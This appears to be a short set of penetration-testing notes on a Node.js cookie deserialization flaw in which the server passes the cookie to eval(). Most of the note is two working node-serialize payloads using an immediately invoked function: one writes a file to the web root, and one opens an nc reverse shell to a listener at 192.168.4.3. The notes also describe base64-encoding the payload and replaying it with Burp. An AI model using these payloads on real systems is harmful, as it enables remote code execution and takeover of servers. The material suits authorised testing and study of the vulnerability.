




# NodeJS

## NodeJS cookie deserializarion

Here, the cookie is encoded and use a serialization function on the server side.



* The source code reveals that the eval\(\) function is used with allow to execute raw javascript.



Using the Immediately invoked function express \(IFFE ----- say iffy\) we are able to remote code execution on the server [https://en.wikipedia.org/wiki/Immediately-invoked\_function\_expression](https://en.wikipedia.org/wiki/Immediately-invoked_function_expression)

```text
{"thp":"_$$ND_FUNC$$_function (){require('child_process').exec('echo nyws is cool > /opt/web/chatSupportSystems/public/nyws.txt', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

```text
{"thp":"_$$ND_FUNC$$_function (){require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.4.3 8888 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

* encode in base64 and replayed using burp leads to RCE and thus revershe shell :





